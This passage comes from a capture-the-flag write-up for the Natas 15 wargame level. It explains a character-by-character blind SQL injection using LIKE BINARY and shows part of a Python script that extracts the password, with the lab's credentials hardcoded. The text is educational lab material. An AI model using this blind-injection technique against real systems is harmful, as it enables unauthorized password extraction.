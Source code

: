 ```sql
SELECT * from users where username="natas16" AND password LIKE BINARY "a%"
```

The query tests whether there is a user named `natas16`, with a password that
starts with the letter `a`. If there is, the webpage says "This user exists".
If there isn't the webpage says "This user doesn't exist". The web app leaks
some information about the password. We can then repeat this query checking for
the letters `b, c, ...`, until we find a match. We can then repeat the process
for the second characted, and repeat that until we have the full password.

The following code does this:

```python
# -*- coding: utf-8 -*-

import logging
import string
import sys

import requests
from bs4 import BeautifulSoup


logging.basicConfig(level=logging.DEBUG, stream=sys.stderr)
logger = logging.getLogger(__name__)
# Silence noisy urllib3 debug logs
logging.getLogger("urllib3").setLevel(logging.CRITICAL)


def get_page_text(query_dict):
    query_dict["debug"] = "1"
    r = requests.get(
        "http://natas15.natas.labs.overthewire.org",
        auth=("natas15", "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"),
        params=query_dict)
    return r.text


def does_user_exist(body):
    html = BeautifulSoup(body, "html.parser")
    text = html.find(id="content").get_text().strip()
    logger.debug(text)
    return "This user exists" in text


def get_next_char(index, possible_chars):
    next_index = index + 1
    return next_index, possible_chars[index]


def get_password():
    # All previous passwords contined only numbers and lower/upper case
    # letters. Let's assume that the same is true for this password.
    possible_chars = "".join([
        string.lowercase,
        string.uppercase,
        "".join(map(str, range(10)))
    ])

    password = ""
    index = 0
    while True:
        try:
            index, char = get_next_char(index, possible_chars)
```

[^1]: Hacking into systems without explicit permission is illegal.